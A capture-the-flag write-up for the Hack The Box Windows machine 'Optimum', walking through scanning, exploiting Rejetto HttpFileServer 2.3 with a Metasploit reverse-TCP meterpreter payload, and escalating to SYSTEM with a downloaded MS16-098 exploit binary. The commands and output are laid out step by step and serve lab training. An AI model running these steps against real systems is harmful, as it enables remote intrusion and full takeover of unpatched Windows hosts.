



---
search:
  exclude: true
---
# Optimum Writeup

## Introduction :

Optimum was an easy Windows box released back in March 2017.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      **λ nihilist [nihilist/_HTB/Optimum] → nmap -sC -sV 10.10.10.8**
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-10 14:48 CET
      Nmap scan report for 10.10.10.8
      Host is up (0.037s latency).
      Not shown: 999 filtered ports
      PORT   STATE SERVICE VERSION
      80/tcp open  http    HttpFileServer httpd 2.3
      |_http-server-header: HFS 2.3
      |_http-title: HFS /
      Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 13.49 seconds
    

Browsing to http://10.10.10.8/ gives us the main page of rejetto's HttpFileServer 2.3 service as planned.

## **Part 2 : Getting User Access**

Let's use the **nikto** command to enumerate potential vulnerabilities on the Http service.
    
    
      **λ root [nihilist/_HTB/Optimum] → nikto -h http://10.10.10.8/**
      - Nikto v2.1.6
      ---------------------------------------------------------------------------
      + Target IP:          10.10.10.8
      + Target Hostname:    10.10.10.8
      + Target Port:        80
      + Start Time:         2019-11-10 15:02:06 (GMT1)
      ---------------------------------------------------------------------------
      + Server: HFS 2.3
      + Cookie HFS_SID created without the httponly flag
      + The anti-clickjacking X-Frame-Options header is not present.
      + The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
      + The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
      + No CGI Directories found (use '-C all' to force check all possible dirs)
      + ERROR: Error limit (20) reached for host, giving up. Last error:
      + Scan terminated:  0 error(s) and 4 item(s) reported on remote host
      + End Time:           2019-11-10 15:02:50 (GMT1) (44 seconds)
      ---------------------------------------------------------------------------
      + 1 host(s) tested
    

Let's use the **searchsploit** command to see which exploits are publicly available for rejetto's HttpFileServer service.
    
    
      **λ root [nihilist/_HTB/Optimum] → searchsploit rejetto**
      --------------------------------------------------------------------------- ----------------------------------------
       Exploit Title                                                             |  Path
                                                                                 | (/usr/share/exploitdb/)
      --------------------------------------------------------------------------- ----------------------------------------
      Rejetto HTTP File Server (HFS) - Remote Command Execution (Metasploit)     | exploits/windows/remote/34926.rb
      Rejetto HTTP File Server (HFS) 1.5/2.x - Multiple Vulnerabilities          | exploits/windows/remote/31056.py
      Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload             | exploits/multiple/remote/30850.txt
      Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)        | exploits/windows/remote/34668.txt
      Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)        | exploits/windows/remote/39161.py
      Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution   | exploits/windows/webapps/34852.txt
      --------------------------------------------------------------------------- ----------------------------------------
      Shellcodes: No Result
    
    

it seems that there are Remote Command Execution Vulnerabilities. We will use a metasploit module to exploit the target. 
    
    
      **msf5 > search rejetto**
    
      Matching Modules
      ================
    
         #  Name                                   Disclosure Date  Rank       Check  Description
         -  ----                                   ---------------  ----       -----  -----------
         0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution
    
    
      **msf5 > use exploit/windows/http/rejetto_hfs_exec**
    
      **msf5 exploit(windows/http/rejetto_hfs_exec) > set RHOST 10.10.10.8**
      RHOST => 10.10.10.8
      **msf5 exploit(windows/http/rejetto_hfs_exec) > set RPORT 80**
      RPORT => 80
      **msf5 exploit(windows/http/rejetto_hfs_exec) > set SRVHOST 10.10.14.48**
      SRVHOST => 10.10.14.48
      **msf5 exploit(windows/http/rejetto_hfs_exec) > set SRVPORT 9001**
      SRVPORT => 9001
      **msf5 exploit(windows/http/rejetto_hfs_exec) > set LHOST 10.10.15.150**
      LHOST => 10.10.15.150
      **msf5 exploit(windows/http/rejetto_hfs_exec) > set LPORT 9002**
      LPORT => 9002
    
      **msf5 exploit(windows/http/rejetto_hfs_exec) > set PAYLOAD windows/x64/meterpreter/reverse_tcpset**
    
      **msf5 exploit(windows/http/rejetto_hfs_exec) > exploit**
    
      [*] Started reverse TCP handler on 10.10.14.48:9002
      [*] Using URL: http://10.10.14.48:9001/7WzzcN0iSur
      [*] Server started.
      [*] Sending a malicious request to /
      [*] Payload request received: /7WzzcN0iSur
      [*] Sending stage (180291 bytes) to 10.10.10.8
      [*] Meterpreter session 1 opened (10.10.14.48:9002 -> 10.10.10.8:49184) at 2019-11-10 15:27:23 +0100
      [!] Tried to delete %TEMP%\XAzNIKQmr.vbs, unknown result
      [*] Server stopped.
    
    **meterpreter > sysinfo**
    Computer        : OPTIMUM
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : el_GR
    Domain          : HTB
    Logged On Users : 1
    Meterpreter     : x86/windows
    
    **meterpreter > shell**
    Process 1992 created.
    Channel 2 created.
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.
    
    **C:\Users\kostas\Desktop>whoami**
    whoami
    optimum\kostas
    
    

Meterpreter Returned ! we are now logged on as kostas into a low-privilege shell.

## **Part 3 : Getting Root Access**

Now we need to use the exploit n°41020 taking advantage of RGNOBJ's Integer OVerflow on Windows 8.1 (MS16-098) We will download 41020.exe from exploit-db's collection of binary exploits available on github. 

_Terminal n°1:_
    
    
      **wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe**
    
      --2019-11-10 15:37:28--  https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe
      Loaded CA certificate '/etc/ssl/certs/ca-certificates.crt'
      Resolving github.com (github.com)... 140.82.118.3
      Connecting to github.com (github.com)|140.82.118.3|:443... connected.
      HTTP request sent, awaiting response... 302 Found
      Location: https://raw.githubusercontent.com/offensive-security/exploitdb-bin-sploits/master/bin-sploits/41020.exe [following]
      --2019-11-10 15:37:28--  https://raw.githubusercontent.com/offensive-security/exploitdb-bin-sploits/master/bin-sploits/41020.exe
      Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.120.133
      Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.120.133|:443... connected.
      HTTP request sent, awaiting response... 200 OK
      Length: 560128 (547K) [application/octet-stream]
      Saving to: ‘41020.exe’
    
      41020.exe                    100%[==============================================>] 547.00K   840KB/s    in 0.7s
    
      2019-11-10 15:37:30 (840 KB/s) - ‘41020.exe’ saved [560128/560128]
    

We downloaded the binary, now let's upload it to the server using metasploit, and execute it to attempt getting an elevated privilege shell.

_Terminal n°2:_
    
    
      **meterpreter > upload 41020.exe**
      [*] uploading  : 41020.exe -> 41020.exe
      [*] Uploaded 547.00 KiB of 547.00 KiB (100.0%): 41020.exe -> 41020.exe
      [*] uploaded   : 41020.exe -> 41020.exe
      meterpreter > shell
      Process 900 created.
      Channel 4 created.
      Microsoft Windows [Version 6.3.9600]
      (c) 2013 Microsoft Corporation. All rights reserved.
    
      **C:\Users\kostas\Desktop>41020.exe**
      41020.exe
      Microsoft Windows [Version 6.3.9600]
      (c) 2013 Microsoft Corporation. All rights reserved.
    
      **C:\Users\kostas\Desktop>whoami**
      whoami
      nt authority\system
    

The privilege escalation was successful ! Now all that's left to do is collecting the user and root flags. 
    
    
      **C:\Users\kostas\Desktop>cd ..\..\..**
    
      **C:\>more C:\Users\kostas\Desktop\user.txt.txt**
      more C:\Users\kostas\Desktop\user.txt.txt
      d0XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
      **C:\>more C:\Users\Administrator\Desktop\root.txt**
      more C:\Users\Administrator\Desktop\root.txt
      51XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

## **Conclusion**

Here we can see the progress graph :

